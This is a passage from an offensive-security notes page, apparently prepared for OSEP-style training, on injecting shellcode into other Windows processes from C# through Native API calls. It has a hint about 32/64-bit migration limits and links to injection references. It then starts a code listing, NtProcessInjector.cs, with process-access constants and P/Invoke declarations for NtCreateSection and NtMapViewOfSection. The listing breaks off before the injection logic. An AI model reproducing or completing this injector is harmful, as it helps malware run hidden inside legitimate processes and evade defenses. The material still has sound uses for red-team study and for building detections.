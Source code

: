 {% hint style="info" %}
When selecting architecture during compilation, remember that there're 4 potential ways to perform the migration:

1. 64-bit > 64-bit: succeeds.
2. 64-bit > 32-bit: succeeds.
3. 32-bit > 32-bit: succeeds.
4. 32-bit > 64-bit: fails due to `CreateRemoteThread` does not natively support it.
{% endhint %}



### C\# Executable via Native API

* [https://www.ired.team/offensive-security/code-injection-process-injection/ntcreatesection-+-ntmapviewofsection-code-injection](https://www.ired.team/offensive-security/code-injection-process-injection/ntcreatesection-+-ntmapviewofsection-code-injection)
* [https://github.com/chvancooten/OSEP-Code-Snippets/blob/main/Sections%20Shellcode%20Process%20Injector/Program.cs](https://github.com/chvancooten/OSEP-Code-Snippets/blob/main/Sections%20Shellcode%20Process%20Injector/Program.cs)

Using *Native API* quadro:

* NtCreateSection
* NtMapViewOfSection
* RtlCreateUserThread
* NtUnmapViewOfSection

{% code title="NtProcessInjector.cs" %}
```csharp
using System;
using System.Linq;
using System.Diagnostics;
using System.Runtime.InteropServices;

namespace NtProcessInjector
{
    public class Program
    {
        public const uint PROCESS_ALL_ACCESS     = 0x001F0FFF;
        public const uint SECTION_MAP_READ       = 0x0004;
        public const uint SECTION_MAP_WRITE      = 0x0002;
        public const uint SECTION_MAP_EXECUTE    = 0x0008;
        public const uint PAGE_READ_WRITE        = 0x04;
        public const uint PAGE_READ_EXECUTE      = 0x20;
        public const uint PAGE_EXECUTE_READWRITE = 0x40;
        public const uint SEC_COMMIT             = 0x8000000;

        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr OpenProcess(uint processAccess, bool bInheritHandle, int processId);

        [DllImport("ntdll.dll", SetLastError = true, ExactSpelling = true)]
        static extern UInt32 NtCreateSection(ref IntPtr SectionHandle, UInt32 DesiredAccess, IntPtr ObjectAttributes, ref UInt32 MaximumSize, UInt32 SectionPageProtection, UInt32 AllocationAttributes, IntPtr FileHandle);

        [DllImport("ntdll.dll", SetLastError = true)]
        static extern uint NtMapViewOfSection(IntPtr SectionHandle, IntPtr ProcessHandle, ref IntPtr BaseAddress, UIntPtr ZeroBits, UIntPtr CommitSize, out ulong SectionOffset, out uint ViewSize, uint InheritDisposition, uint AllocationType, uint Win32Protect);

        [DllImport("ntdll.dll", SetLastError = true)]
        static extern uint NtUnmapViewOfSection(IntPtr hProc, IntPtr baseAddr);

        [DllImport("ntdll.dll", SetLastError = true)]
```